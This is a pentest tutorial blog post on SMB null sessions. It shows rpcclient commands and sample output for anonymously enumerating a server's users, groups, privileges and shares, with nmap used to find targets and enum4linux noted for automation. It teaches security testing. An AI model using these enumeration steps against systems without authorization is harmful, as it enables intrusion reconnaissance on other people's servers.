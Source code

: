 ```yaml
---
date: 2015-05-09
title: SMB null session
tags:
- smb
- rpc
---
```

While performing a pentest, if you discover a server running the [SMB protocol](http://en.wikipedia.org/wiki/Server_Message_Block "Server Message Block") 
you can test if it's vulnerable to anonymous connection (also called null session) and then glean a lot of informations with 
a [RPC](http://en.wikipedia.org/wiki/Remote_procedure_call "Remote Procedure Call") client. 
Nmap is usefull to locate that kind of service:

![smb null session](/images/smb-null-session-1.png)

Now you can try to interact with the remote machine with the help of [rpcclient](https://www.samba.org/samba/docs/man/manpages/rpcclient.1.html "Man rpcclient"). 
To perform a null session you have to specify an empty user and an empty password. 
If the host is not vulnerable, you will get the following error:

```none
$ rpcclient -U "" 192.168.1.31
Enter 's password:
could not initialise lsa pipe. Error was NT_STATUS_ACCESS_DENIED
could not obtain sid for domain WORKGROUP
error: NT_STATUS_ACCESS_DENIED
```

But if the host is vulnerable you will immediatly get a prompt:

```none
$ rpcclient -U "" 192.168.1.18
Enter 's password:
rpcclient $>
```

<!--more-->

If you connect successfully, you can use help to see the list of available commands (anyway tab works for autocompletion). 
Below some examples of the most used.

Basic server infos:

```none
rpcclient $> srvinfo
  LUIGI          Wk Sv PrQ Unx NT SNT nintendo server
  platform_id     :  500
  os version      :  4.9
  server type     :  0x809a03
```

Users enumeration:

```none
rpcclient $> enumdomusers
user:[admin] rid:[0x3ec]
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[lisa] rid:[0x3f1]
user:[mark] rid:[0x3f2]</pre>
```

Groups enumeration:

```none
rpcclient $> enumalsgroups builtin
group:[Administrators] rid:[0x220]
group:[Backup Operators] rid:[0x227]
group:[Guests] rid:[0x222]
group:[Power Users] rid:[0x223]
group:[Users] rid:[0x221]
```

Privileges of the connected user:

```none
rpcclient $> enumprivs
found 8 privileges

SeMachineAccountPrivilege 		0:6 (0x0:0x6)
SeTakeOwnershipPrivilege 		0:9 (0x0:0x9)
SeBackupPrivilege 		0:17 (0x0:0x11)
SeRestorePrivilege 		0:18 (0x0:0x12)
SeRemoteShutdownPrivilege 		0:24 (0x0:0x18)
SePrintOperatorPrivilege 		0:4097 (0x0:0x1001)
SeAddUsersPrivilege 		0:4098 (0x0:0x1002)
SeDiskOperatorPrivilege 		0:4099 (0x0:0x1003)
```

Shares enumeration:

```none
rpcclient $> netshareenum
netname: IPC$
  remark:	IPC Service
  path:	C:\tmp
  password:
netname: Lisa Share
  remark:	Lisa Docs
  path:	C:\home\lisa\files
  password:
```

[enum4linux](https://code.google.com/p/phillips321/) is the perfect tool to automate null session attacks. 
According to the documentation : "[...] this script is basically just a wrapper around rpcclient, net, nmblookup and smbclient [...]".
